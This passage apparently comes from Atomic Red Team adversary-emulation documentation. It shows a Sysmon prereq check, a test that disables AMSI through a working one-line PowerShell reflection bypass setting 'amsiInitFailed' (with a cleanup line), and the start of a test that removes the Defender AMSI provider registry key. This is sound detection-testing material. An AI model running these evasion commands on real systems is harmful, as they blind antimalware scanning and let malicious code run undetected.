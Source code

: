 ##### Check Prereq Commands:
```powershell
if(cmd /c sc query sysmon) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
cmd /c sysmon -i -accepteula
```




<br/>
<br/>

## Atomic Test #12 - AMSI Bypass - AMSI InitFailed
Any easy way to bypass AMSI inspection is it patch the dll in memory setting the "amsiInitFailed" function to true.
Upon execution, no output is displayed.

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

**Supported Platforms:** Windows


**auto_generated_guid:** 695eed40-e949-40e5-b306-b4031e4154bd






#### Attack Commands: Run with `powershell`! 


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false)
```





<br/>
<br/>

## Atomic Test #13 - AMSI Bypass - Remove AMSI Provider Reg Key
With administrative rights, an adversary can remove the AMSI Provider registry key in HKLM\Software\Microsoft\AMSI to disable AMSI inspection.
This test removes the Windows Defender provider registry key. Upon execution, no output is displayed.
Open Registry Editor and navigate to "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\" to verify that it is gone.
